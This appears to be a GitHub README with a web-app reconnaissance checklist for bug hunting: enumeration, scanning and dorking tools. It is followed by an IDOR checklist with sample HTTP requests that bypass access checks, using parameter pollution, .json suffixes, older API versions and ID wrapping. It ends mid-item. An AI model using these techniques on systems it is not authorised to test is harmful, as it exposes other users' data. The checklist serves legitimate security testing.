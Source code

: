 # Web-Recon-Checklist
Web App Recon checklist



## Pre-Engagement.

### Recon & analysis for a website.
## Pre-Engagement.
---
 #### Background information abut the asset.

* [ ] Span your VPNs.`Avoids getting banned`.
* [ ] Background story about the asset.
* [ ] Identify web server & technologies.`waplyzer , content type` .

--- 
* [ ] Identify WAF.
* [ ] Check waybackurls.
* [ ] Shodan.
* [ ] Google dorking.`content discovery`.
* [ ] Check /.git.`check the company’s GitHub`.
* [ ] Try to locate /robots.txt /crossdomain.xml /clientaccesspolicy.xml /phpinfo.php /sitemap.xml
* [ ] Subdomains Enumeration.`subfinder /crt /waybackurls`.   
* [ ] Probe for **live hosts/domains/subdomains**.`httpx,httprobe , http-toolkit`
* [ ] Resolve the domains to ip address.`IPX`
* [ ] Screenshotting.`HTTPScreenShot ,Gowitness`  
* [ ] Port scanning.`nmap/masscan ..active ports and services` 
* [ ] Directory and Content enumeration.`Gobuster-> bruiteforcing technnique ,Meg, Burp Pro`.
* [ ] check for existing vulnerabilities.`Hacker write-ups, disclosed reports, CVEs, published exploits `.

---
#### Not that important.

* [ ] Find leaked ids, email.
* [ ] Crawl all the site for interesting keywords like password, token, etc
* [ ] Test for debug parameters
* [ ] Identify data entry points
* [ ] Review comments on source code
---

### Fuctionality Mapping.

* [ ] Vulnerabilities Markers.`possible  signs for vulnerabilities`.
* [ ] Goals.`vulns to  check on the asset`.
* [ ] Pointers.
* [ ] site functionality.

---

# IDOR checklist


## usually i can be found in;
- APIs.
- Unique ID.

## Payload checklist.

- [ ] Add parameters to endpoints.
```
GET /api/v1/ **getuser?id=1234** HTTP/1.1
Host: example.com
```
- [ ] HTTP Parameter pollution.
```
POST /api/get_profile HTTP/1.1
Host: example.com

user_id=hacker_id &user_id=victim_id
```
- [ ] Add .json to the endpoint.
```
GET /v2/GetData/1234 HTTP/1.1
Host: example.com
->bypass with this /1234.json
```
- [ ] Test on outdated API versions.
```
POST /v2/GetData HTTP/1.1
Host: example.com
id=123
```
- [ ] Wrap the id with array.

```
POST /api/get_profile HTTP/1.1
Host: example.com
{"user_id":111}
-> bypass with this {"id":[111]} 
```

- [ ] Wrap the ID with a JSON object.
```
POST /api/get_profile HTTP/1.1
Host: example.com
{"user_id":111}
->try to bypass {"user_id":{"user_id":111}}
```
- [ ]